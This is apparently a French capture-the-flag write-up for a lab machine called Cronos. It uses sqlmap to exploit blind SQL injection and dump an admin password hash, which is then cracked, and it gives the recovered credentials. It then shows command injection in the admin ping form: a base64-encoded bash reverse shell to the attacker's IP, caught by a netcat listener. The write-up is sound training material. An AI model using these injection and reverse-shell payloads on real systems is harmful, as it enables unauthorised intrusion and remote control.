 ### admin.cronos.htb login page

### sqlmap
```bash
sqlmap --forms --batch -u "http://admin.cronos.htb/"
> username field is vulnerable to blind SQL Injection !

sqlmap --forms --batch -u "http://admin.cronos.htb/" --current-db
> admin

sqlmap --forms --batch -u "http://admin.cronos.htb/" -D admin --tables
> users

sqlmap --forms --batch -u "http://admin.cronos.htb/" -D admin -T users --columns
> Too slow... Trying to guess "password" field and it works !

sqlmap --forms --batch -u "http://admin.cronos.htb/" -D admin -T users -C password --dump
> 4f5fffa7b2340178a716e3832451e058
```
Sur crackstation : Not found.
Hashcat avec rockyou.txt : Not found.

J'ai cherché le hachage sur google : "4f5fffa7b2340178a716e3832451e058"
Bingo ! On trouve le mot de passe : 1327663704

On essaye les credentials sur la page de login de admin.cronos.htb et ça marche :
- user: admin
- pass: 1327663704

Après review du code source  (plus tard) on découvre que :
$myusername = $_POST['username'];
$mypassword = md5($_POST['password']); 

### Command Injection - admin dashboard
On peut faire des ping et des traceroute sur la page d'admin. En utilisant burp on peut modifier la commande pour executer ce qu'on veut. On peut alors executer un reverse shell vers notre machine :
```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=0p5lct2jjmbq5neupststnl996
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=echo+c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvOTAwMSAwPiYx+|+base64+-d+|+bash&host=z

------------------------

$ nc -lnvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:55658.
sh: 0: can't access tty; job control turned off
$ whoami
```